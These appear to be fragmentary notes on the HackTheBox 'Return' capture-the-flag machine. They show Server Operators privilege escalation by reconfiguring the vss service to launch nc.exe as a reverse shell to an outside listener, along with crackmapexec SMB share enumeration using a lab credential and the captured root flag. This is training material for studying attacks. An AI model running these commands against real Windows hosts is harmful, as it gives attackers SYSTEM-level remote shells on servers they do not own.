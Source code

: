 
then running 

````
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss


````


flag would be at C:\Users\Administrator\Desktop

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
266dfdefeb384083c003a8fce1a7bb9e

```


## more notes
for privilege escalation we can use

`net user svc-printer`

this will give us the group and then further

```
Privilege Escalation
Enumerating group memberships reveals that svc-printer is part of Server Operators group.
We can read more about this group here. Members of this group can start/stop system services. Let's
modify a service binary path to obtain reverse shell.
Stand up a listener on port 1234 and issue below commands to obtain reverse shell.
upload /usr/share/windows-resources/binaries/nc.exe
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2
1234"
sc.exe stop vss
sc.exe start vss
```

following https://www.izenynn.com/2022/05/09/htb-return/

`crackmapexec smb 10.129.111.124`

to list smb shares

`❯ crackmapexec smb 10.129.111.124 --shares -u svc-printer -p '1edFg43012!!'
SMB         10.129.111.124  445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.129.111.124  445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.129.111.124  445    PRINTER          [+] Enumerated shares
SMB         10.129.111.124  445    PRINTER          Share           Permissions     Remark
SMB         10.129.111.124  445    PRINTER          -----           -----------     ------
SMB         10.129.111.124  445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.129.111.124  445    PRINTER          C$              READ,WRITE      Default share
SMB         10.129.111.124  445    PRINTER          IPC$            READ            Remote IPC
SMB         10.129.111.124  445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.129.111.124  445    PRINTER          SYSVOL          READ            Logon server share `

